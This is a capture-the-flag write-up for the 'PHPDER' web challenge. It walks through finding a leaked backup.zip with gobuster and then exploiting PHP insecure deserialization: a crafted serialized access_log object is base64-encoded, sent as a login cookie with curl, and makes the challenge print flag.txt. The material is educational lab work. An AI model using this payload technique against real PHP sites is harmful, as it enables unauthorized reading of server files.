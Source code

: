 # PHPDER Writeup

> Flag: FNW_CTF{pHp_0bj4ct_inj4ct10n_vu1n}

At first glance it is a login page:

![image](https://user-images.githubusercontent.com/80664686/117576250-66aa6180-b10f-11eb-8036-3bdadc9e0a61.png)

I tried a bit of SQL injection but there's just some <span style="color:red">*Invalid Login*</span> error

Ran `gobuster` to do some recon and found `/backup.zip` file. Unzip it and there're the sources of the web

File: [backup.zip](files/phpder_backup.zip)

## Overview code explaination

In `index.php`:
1. Run `cookie.php`
2. If we send a post message with 2 parameters: ***user** & **pass** --> create a new object `permission(user, pass)`
3. Check if the user is guest or admin
4. **Serialize** the object and encode with **base64**
5. Goto `authentication.php`

In `cookie.php`:
1. Create a new class **permission**. P/S: If you're familiar with *object oriented programming*, you should be easily understand it
2. Unserialize the **login** cookie, check if it's guest or admin
3. If cannot unserialize! --> print the object to screen

In `authentication.php`:
1. Create class **access_log** 
2. If it's admin --> append to log file

## Exploitation
By looking at this block:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
> If cannot unserialize! --> print the object to screen

If you try to serialize yourself on local enviroment `$php -a`, you'll get something like this:
> TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO047czo4OiJwYXNzd29yZCI7Tjt9

Base64 decode, which is the serialized object:
> O:11:"permissions":2:{s:8:"username";N;s:8:"password";N;}

By default, the website will serialize **permission** object then deserialize it. 

What if... we change **permission** object to **access_log** object?

Serialized **access_log**:
> O:10:"access_log":1:{s:8:"log_file";s:8:"flag.txt";}

`flag.txt` is just a guess by the way 😛

Base64 encode:
> TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo=

Now we need to add the cookie and let it run the *print object* in `cookie.php`, but we need to request to `authentication.php` first to load the object structure.

```fish
$ curl http://chall4.ctf.night-wolf.io/authentication.php -b 'login="TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo="'
Deserialization error. FNW_CTF{pHp_0bj4ct_inj4ct10n_vu1n}
```
✨✨✨

[Go back](..)
